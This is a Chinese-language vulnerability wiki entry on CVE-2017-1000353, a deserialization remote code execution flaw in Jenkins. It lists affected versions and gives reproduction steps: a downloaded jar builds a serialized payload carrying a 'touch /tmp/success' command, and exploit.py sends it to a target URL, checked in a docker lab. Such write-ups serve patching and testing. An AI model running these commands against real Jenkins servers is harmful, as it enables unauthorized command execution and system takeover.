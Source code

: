 （CVE-2017-1000353）Jenkins-CI 远程代码执行漏洞
===============================================

一、漏洞简介
------------

该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

二、漏洞影响
------------

所有Jenkins主版本均受到影响(包括\<=2.56版本)所有Jenkins LTS 均受到影响( 包括\<=2.46.1版本)

三、复现过程
------------

### 步骤一、生成序列化字符串

参考<https://github.com/ianxtianxt/CVE-2017-1000353>，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/ianxtianxt/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

    java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
    # jenkins_poc.ser是生成的字节码文件名
    # "touch ..."是待执行的任意命令

执行上述代码后，生成jenkins\_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/ianxtianxt/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://www.0-sec.org:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![1.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-1000353)Jenkins-CI远程代码执行漏洞/media/rId29.jpg)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![2.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-1000353)Jenkins-CI远程代码执行漏洞/media/rId30.jpg)

参考链接
--------

> https://vulhub.org/\#/environments/jenkins/CVE-2017-1000353/
